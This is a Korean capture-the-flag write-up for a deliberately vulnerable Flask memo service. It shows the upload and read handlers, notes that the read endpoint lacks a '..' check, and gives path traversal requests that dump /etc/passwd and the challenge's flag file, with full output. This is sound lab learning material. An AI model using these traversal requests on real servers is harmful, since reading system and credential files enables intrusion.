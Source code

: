 # file-download-1 WriteUp
File Download Vulnerability가 존재하는 웹 서비스이다 flag.py를 다운받으면 flag 획득 가능하다.

### /upload

```
@APP.route('/upload', methods=['GET', 'POST'])
def upload_memo():
    if request.method == 'POST':
        filename = request.form.get('filename')
        content = request.form.get('content').encode('utf-8')

        if filename.find('..') != -1:
            return render_template('upload_result.html', data='bad characters,,')

        with open(f'{UPLOAD_DIR}/{filename}', 'wb') as f:
            f.write(content)

        return redirect('/')

    return render_template('upload.html')
```
파일 업로드를 처리하는 코드이다. `..`가 포함되어있는지 검사하여 상위 디렉터리로 이동하는 것을 방지한다

### /read

```
@APP.route('/read')
def read_memo():
    error = False
    data = b''

    filename = request.args.get('name', '')

    try:
        with open(f'{UPLOAD_DIR}/{filename}', 'rb') as f:
            data = f.read()
    except (IsADirectoryError, FileNotFoundError):
        error = True


    return render_template('read.html',
                           filename=filename,
                           content=data.decode('utf-8'),
                           error=error)
```

사용자가 요청한 파일을 열어서 읽고 이를 웹 페이지에 표시한다. 웹 내용을 표시할 때, upload와 달리 상위 디렉터리에 대한 제한이 없는 것으로 확인되며 /read 엔드포인트에서 익스플로잇을 진행한다.

하지만 아까 코드에서 봤다싶이 /upload 에서는 디렉터리 순회나 상위 디렉터리에 들어갈 수 있는 방법이 없기 때문에 아무런 파일을 만들어 업로드 한다음
업로드한 파일에 접속해 디렉터리 순회를 이용하여 파일을 읽는다.
아래는 개념 증명용 이다.

```
/read?name=../../../../../etc/passwd

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
dreamhack:x:1000:1000:Linux User,,,:/home/dreamhack:/bin/ash
```

Path Traversal 취약점도 이용가능하니  이번엔 ../flag.py 파일을 한번 읽어봐야겠다.


# flag 획득

```
/read?name=../flag.py

FLAG = 'DH{flag!!}'

```